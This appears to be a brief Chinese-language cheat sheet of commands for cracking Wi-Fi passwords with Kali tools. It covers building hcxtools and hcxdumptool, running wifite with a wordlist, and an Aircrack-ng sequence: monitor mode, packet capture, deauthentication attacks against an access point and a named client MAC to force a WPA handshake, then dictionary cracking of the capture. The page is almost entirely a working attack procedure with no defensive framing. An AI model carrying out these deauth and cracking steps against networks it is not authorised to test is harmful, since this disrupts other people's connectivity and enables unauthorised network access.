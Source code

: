   #### wifite
	Kali下工具wifite，加载网卡，开启监听模式，#airmon-ng check kill
	>airmon-ng start wlan1
	安装hcxtools v4.2.0或更高版本，hcxdumptool v4.2.0或更高版本
	>apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev
	>git clone https://github.com/ZerBea/hcxtools
	>cd hcxtools
	>make
	>make install 
	>git clone https://github.com/ZerBea/hcxdumptool
	>cd hcxdumptool
	>make
	>make install
	>wifite –-dict /root/Desktop/wordlist.txt  加载
  #### Aircrack-ng
	>airmon-ng start wlan0 开启监听模式
	>airodump-ng wlan0mon  查看数据包
	>airodump-ng –c 1 –bssid APmac –w name wlan1mon保存某AP数据包
	>aireplay-ng –deauth 10 –a APmac wlan0mon  deauth攻击
	>aireplay-ng -0 2 -a C8:3A:35:30:3E:C8 -c B8:E8:56:09:CC:9C wlan0mon deauth攻击某个设备直至获取handshake(握手包)
	>airmon-ng stop wlan0mon  关闭监听模式
	>aircrack-ng –w wordlist.txt name.cap 指定字典破解密码